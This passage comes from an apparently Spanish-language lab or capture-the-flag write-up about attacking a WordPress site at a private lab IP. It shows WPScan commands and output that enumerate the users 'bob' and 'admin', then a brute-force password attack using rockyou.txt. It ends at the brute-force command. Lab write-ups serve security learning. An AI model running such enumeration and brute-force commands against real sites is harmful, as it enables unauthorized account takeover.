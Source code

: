 ```
 Checking Config Backups - Time: 00:00:02 <=================================================================================================================================> (137 / 137) 100.00% Time: 00:00:02

[i] No Config Backups Found.

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 3
 | Requests Remaining: 22
```

A continuación, voy a volver a utilizar la herramienta para intentar listar usuarios.

```bash
wpscan --url http://10.10.235.168/wordpress/ -e u --api-token=''
```

Y obtengo los siguientes usuarios, **`bob & admin`**.

```
[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.235.168/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bob
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 0
 | Requests Remaining: 22
```

---

## **Explotación**

Voy a intentar encontrar con **`WPScan`** la contraseña de alguno de los usuarios, mediante un ataque de fuerza bruta, utilizando el diccionario **`rockyou.txt`**.

```bash
wpscan --url http://10.10.235.168/wordpress/ -U bob,admin -P /usr/share/wordlists/rockyou.txt --api-token=''
```
